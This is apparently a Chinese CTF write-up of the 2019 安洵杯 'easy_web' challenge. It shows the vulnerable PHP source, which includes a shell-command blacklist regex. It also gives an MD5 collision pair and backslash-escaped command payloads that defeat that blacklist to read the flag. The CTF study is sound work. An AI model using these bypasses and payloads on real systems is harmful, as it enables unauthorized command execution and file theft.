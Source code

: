 ```yaml
---
layout: post
title: 2019 安洵杯 Web wp
date: 2021-03-24 17:37 +0800
last_modified_at: 2021-03-24 17:37:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

* # 0x01 easy\_web

  关键词：文件读取，源码泄露，md5强碰撞，反斜杠绕过

打开网页发现增加了两个get类型的变量，其中image变量名称怀疑为base64加密后的数据

cmd变量为空，初步猜测为输入点![](C:\Gitbook\Import\heart1ess_s_ctf\assets\axb1.png)经过两次base64解码后发现为十六进制字符串，翻译后得

![](C:\Gitbook\Import\heart1ess_s_ctf\assets\abx2.png)

更改img变量内容发现左上角图片消失，判断可以采用此方法泄露源代码，此时将index.php按顺序加密后作为image变量输入得到base64加密后的源代码，解密后获得源代码如下

    <?php
    error_reporting(E_ALL || ~ E_NOTICE);
    header('content-type:text/html;charset=utf-8');
    $cmd = $_GET['cmd'];
    if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
        header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
    $file = hex2bin(base64_decode(base64_decode($_GET['img'])));
    
    $file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
    if (preg_match("/flag/i", $file)) {
        echo '<img src ="./ctf3.jpeg">';
        die("xixi～ no flag");
    } else {
        $txt = base64_encode(file_get_contents($file));
        echo "<img src='data:image/gif;base64," . $txt . "'></img>";
        echo "<br>";
    }
    echo $cmd;
    echo "<br>";
    if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
        echo("forbid ~");
        echo "<br>";
    } else {
        if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
            echo `$cmd`;
        } else {
            echo ("md5 is funny ~");
        }
    }
    
    ?>
    <html>
    <style>
      body{
       background:url(./bj.png)  no-repeat center center;
       background-size:cover;
       background-attachment:fixed;
       background-color:#CCCCCC;
    }
    </style>
    <body>
    </body>
    </html>

由源代码可知img变量过滤flag，即不能通过img变量获取flag，并且可以通过利用cmd字符串的代码执行漏洞获取flag。

由代码审计可知需要以post方式传入两个变量a和b并且使a与b的md5值相等同时a与b的字符串值不等，这与之前做过的用数组绕过md5的题不同，该题中采用数组绕过md5的过程中会使第一个条件即强行转化字符串后得到的结果也相等，则直接跳转到下一个条件处。因而只能采用md5强碰撞完成，下面给出解该题所用的md5碰撞字符串对：

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

a与b在url解码后进行md5加密得到相同的结果，如下图所示：![](C:\Gitbook\Import\heart1ess_s_ctf\assets\axb3.png)而后通过反斜杠`\`规避正则表达式过滤，最终获取根目录下的flag

Payload：

```
&cmd=dir%20/    //查看根目录下的文件，发现flag
&cmd=ca\t%20/fl\ag    //获取flag
```



